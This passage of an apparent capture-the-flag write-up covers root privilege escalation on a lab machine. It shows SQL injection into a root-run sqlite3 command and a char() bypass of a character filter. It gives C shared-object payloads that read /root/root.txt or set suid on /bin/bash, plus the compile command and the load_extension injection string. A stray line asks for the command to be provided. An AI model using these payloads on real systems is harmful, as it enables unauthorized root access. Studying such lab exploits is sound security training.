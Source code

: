 Our analysis proceeds with a detailed examination of each function within the application. Among these functions, the one that necessitates user input is the “activate user account” function. We will conduct a targeted search for this function within IDA.

![](https://techyrick.com/wp-content/uploads/2023/10/Screenshot-2023-10-25-at-7.24.40-PM-1024x530.webp)

Within this function, we’ve uncovered that it runs an SQLite command as the root user. The specific command executed is: [Please provide the command for further analysis.]

**/usr/bin/sqlite3 /var/www/DoodleGrive/db.sqlite3 -line 'UPDATE accounts_customuser SET is_active=1 WHERE username="%s";'**

In our efforts to potentially execute a Remote Code Execution (RCE) attack, we’ve identified a pathway through the `load_extension` function in SQLite3. However, this poses a challenge due to input string sanitization in the binary.

After extensive testing, we’ve determined that the binary filters out the characters “.” and “/”, and has a maximum limit of 35 characters for input. To bypass these constraints, we can utilize the `char()` function to express our text in ASCII and create a command that is just one character long to conserve space.

`**Advertisement**`

To proceed, we’ve generated a C file named “a.c” that contains the code for our command. In my case, the only way to read the root flag was to execute a “cat” command on the root file. I encountered limitations that prevented the use of a reverse shell or a root shell. Therefore, I’ll provide two versions of the command, one for executing my command and another for spawning a root shell.

**#include <stdlib.h>
#include <unistd.h>
void sqlite3_a_init() {
setuid(0);
setgid(0);
system("/usr/bin/cat /root/root.txt > /tmp/a.txt");
}**

**#include <stdlib.h>  
#include <unistd.h>  
void sqlite3_a_init() {  
setuid(0);  
setgid(0);  
system("/usr/bin/chmod +s /bin/bash");  
}**

We’ll select one of the provided versions for our command.

Remember, the file name should consist of just one character, and the initialization function should follow this format: `sqlite3_<filename>_init()`.

Now, let’s proceed to compile the code.

**gcc -shared a.c -o a.so -nostartfiles -fPIC**

Now, we’ll execute the binary and inject our payload.

**"+load_extension(char(46,47,97))+"**

_**46 = ‘ . ’ , 47 = ‘ / ’ , 97 = ‘ a ’**_
